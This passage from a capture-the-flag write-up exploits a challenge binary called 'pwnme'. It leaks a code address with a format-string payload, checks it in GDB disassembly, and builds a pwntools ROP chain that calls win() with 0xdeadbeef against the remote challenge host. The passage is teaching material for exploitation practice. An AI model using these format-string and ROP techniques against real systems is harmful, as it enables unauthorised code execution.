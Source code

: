 The 9th argument on the stack looks like an address of our PIE binary, lets look in more detail in GDB. In one terminal I run:

```bash
$ ./pwnme                                                   
How about creating a leak?%9$016lx
000055a6adec722e
```

In another terminal, GDB:

```bash
$ gdb -p `pidof pwnme`
gdb-peda$ disass 0x00055a6adec722e
Dump of assembler code for function win:
   0x000055a6adec722e <+0>:     endbr64 
   0x000055a6adec7232 <+4>:     push   rbp
   0x000055a6adec7233 <+5>:     mov    rbp,rsp
   0x000055a6adec7236 <+8>:     sub    rsp,0x10
   0x000055a6adec723a <+12>:    mov    DWORD PTR [rbp-0x4],edi
   0x000055a6adec723d <+15>:    cmp    DWORD PTR [rbp-0x4],0xdeadbeef
   0x000055a6adec7244 <+22>:    je     0x55a6adec7254 <win+38>
   0x000055a6adec7246 <+24>:    lea    rdi,[rip+0xdb7]        # 0x55a6adec8004
   0x000055a6adec724d <+31>:    call   0x55a6adec7090 <puts@plt>
   0x000055a6adec7252 <+36>:    jmp    0x55a6adec7260 <win+50>
   0x000055a6adec7254 <+38>:    lea    rdi,[rip+0xdb3]        # 0x55a6adec800e
   0x000055a6adec725b <+45>:    call   0x55a6adec70a0 <system@plt>
   0x000055a6adec7260 <+50>:    leave  
   0x000055a6adec7261 <+51>:    ret
```

Ok great, so the 9th argument on the stack is the address of `win()`. I repeat the other steps I've already done above, to find the offset of the crash. The result is the same `40`bytes. Exploitation is simple and basically a copy of the previous one:

```python
from pwn import *

local = False

fname = "./pwnme"
hostname = '0.cloud.chals.io'
port = 20646
offset = 40

binary = context.binary = ELF(fname)

if local:
    p = process(fname)

else:
    p = remote(hostname, port)

p.sendlineafter(b'?', b"%9$016lx")
leak = int(p.recv(16).decode(),16)
base = leak - (binary.sym['win'] - binary.address)
log.info(f"leaked addr: {hex(leak)}")
log.info(f"base addr: {hex(base)}")

# set base address
binary.address = base
rop = ROP(binary)
rop.raw(b"A" * offset)
rop.raw(p64(rop.find_gadget(['ret'])[0]))
rop.raw(p64(rop.find_gadget(['pop rdi','ret'])[0]))
rop.raw(p64(0xdeadbeef))
rop.raw(p64(leak))
```